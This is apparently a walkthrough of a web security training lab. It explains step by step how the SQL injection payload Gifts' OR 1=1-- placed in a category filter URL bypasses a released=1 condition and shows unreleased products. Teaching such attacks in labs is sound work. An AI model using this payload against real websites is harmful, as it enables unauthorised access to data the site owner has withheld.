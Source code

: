 The website is using this query in the backend when you choose a product category like "Gifts":

sql
Copy
Edit
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
This means:

Show only products where:

The category is 'Gifts'

AND the released flag is 1 (which means it's public/visible)

Your goal:
👉 Trick this query to also show unreleased products (those with released = 0), using SQL Injection.

🧪 Step-by-Step Explanation
🔍 Step 1: Find where to inject
You go to the product page and see categories like Gifts, Accessories, etc.
When you click on a category, it probably sends something like this in the URL:

arduino
Copy
Edit
https://example.com/filter?category=Gifts
So, category=Gifts is being used in the SQL query.

🧨 Step 2: Inject the payload
Now let’s use this input instead of just "Gifts":

vbnet
Copy
Edit
Gifts' OR 1=1--
Which makes the full query become:

sql
Copy
Edit
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
🔍 What Just Happened?
Let’s understand this in human terms:

' → closes the original 'Gifts'

OR 1=1 → always true condition, so it matches all products

-- → comment, which tells SQL to ignore the rest (AND released = 1 is skipped)

So the query becomes:

sql
Copy
Edit
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
✅ Boom! Now the database shows all products, including unreleased ones, because we bypassed the released = 1 filter.

💡 Final Input (URL)
So your final test URL would look like this:

arduino
Copy
Edit
https://example.com/filter?category=Gifts'+OR+1=1--
Or enter Gifts' OR 1=1-- in the category filter field (if it's in a form).

✅ Result
Once you do that, you should see hidden/unreleased products, which means:

🎉 Lab Solved!

